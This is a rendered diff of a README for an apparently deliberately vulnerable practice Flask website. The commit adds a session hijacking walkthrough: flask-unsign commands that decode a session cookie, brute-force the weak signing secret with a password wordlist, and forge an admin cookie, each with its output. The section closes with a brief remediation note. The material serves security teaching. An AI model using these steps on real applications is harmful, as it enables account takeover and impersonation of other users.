

Before and after one commit to RohanKumarSachdeva/VulnerableWebsite, a Markdown page: README.md, the part around the change. Shown at 85% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
README update: session hijacking attack details added

````diff
--- a/README.md
+++ b/README.md
@@ -66,4 +66,49 @@ Deep diving into our application code we see the 2 main causes of this vulnerabi
   - Construct **Regular expressions** to validate user input.
 
 * **Output Encoding for “HTML Contexts”.**  Output Encoding is recommended when we need to safely display data exactly as a user typed it in.
-Hence in order to add a variable to a HTML context safely, HTML entity encoding should be used for that variable as we add it to a web template. Flask has default encoding capability, hence to fix the vulnerability in our code we should remove the `|safe` tag while adding it to web template.
+Hence in order to add a variable to a HTML context safely, HTML entity encoding should be used for that variable as we add it to a web template. Flask has default encoding capability ([Reference Link](https://flask.palletsprojects.com/en/1.1.x/templating/#controlling-autoescaping)), hence to fix the vulnerability in our code we should remove the `|safe` tag while adding it to web template.
+
+### 3. Session Hijacking:
+#### Attack Details:
+The disclosure, capture, prediction, brute force, or fixation of the session ID will lead to session hijacking (or sidejacking) attacks, where an attacker is able to fully impersonate a victim user in the web application. Our application is vulnerable to **session hijacking** which can be explioted by using tools like **flask-unsign**. Flask-unsign ([Download Link](https://pypi.org/project/flask-unsign/)) is a command line tool to fetch, decode, brute-force and craft session cookies of a Flask application by guessing secret keys. Below are the steps on how to exploit the session vulnerability in our flask application:
+
+* **Step 1:**
+  - Decode session cookie using flask-unsign.
+  ```
+  flask-unsign --decode --cookie 'eyJpZCI6MSwibG9nZ2VkaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Y6-xzg.NeUwSfTaH1n2gWd5qhqSsNv-7Tk'
+  ```
+  - Output: decoded cookie value.
+  ```
+  {'id': 1, 'loggedin': True, 'username': 'test'}
+  ```
+
+* **Step 2:**
+  - Use wordlist ([Download Link](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwjstLrx8af8AhX8-DgGHQJyA0UQFnoECBMQAQ&url=https%3A%2F%2Fgithub.com%2Fbrannondorsey%2Fnaive-hashcat%2Freleases%2Fdownload%2Fdata%2Frockyou.txt&usg=AOvVaw3snAERl1mU6Ccr4WFEazBd)) of common passwords to bruteforce the secret key.
+   ```
+   flask-unsign --wordlist rockyou.txt --unsign --cookie 'eyJpZCI6MSwibG9nZ2VkaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Y6-xzg.NeUwSfTaH1n2gWd5qhqSsNv-7Tk'  --no-literal-eval
+   ```
+  - Output: API key **`s3cr3t`** obtained via brute-force.
+  ```
+  [*] Session decodes to: {'id': 1, 'loggedin': True, 'username': 'test'}
+  [*] Starting brute-forcer with 8 threads..
+  [+] Found secret key after 70144 attempts
+  b's3cr3t'
+  ```
+
+* **Step 3:**
+  - Craft a session cookie using the secret obtained in Step 2.
+  ```
+   flask-unsign --sign --cookie "{'id': 2, 'loggedin': True, 'username': 'admin'}" --secret 's3cr3t'
+  ```
+
+  - Output: temporary cookie for username **`admin`**.
+  ```
+   eyJpZCI6MiwibG9nZ2VkaW4iOnRydWUsInVzZXJuYW1lIjoiYWRtaW4ifQ.Y6-0ng.j6FmpIcxhSd8_6URCDmy03sFnX8
+  ```
+
+* **Step 4:**
+  - Login to test account and use this admin cookie to make request from browser.
+  - Will be logged in as admin.
+
+#### Remediation Steps:
+* Make sure to use strong API key using CPRG.
````
